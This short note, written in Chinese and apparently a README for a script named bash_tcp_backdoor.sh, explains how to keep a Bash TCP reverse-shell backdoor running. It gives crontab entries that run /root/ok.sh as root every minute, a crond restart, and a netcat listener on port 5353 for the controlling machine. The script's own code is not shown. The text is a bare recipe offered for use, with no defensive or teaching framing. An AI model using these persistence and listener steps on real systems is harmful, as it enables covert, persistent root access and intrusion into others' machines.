 # backdoor

Bash TCP反弹后门
bash_tcp_backdoor.sh
vim /etc/crontab
*/1 * * * * root /root/ok.sh
或
crontab -e
*/1 * * * *  /root/ok.sh

systemctl restart crond

控制机执行
nc -l -v -p 5353
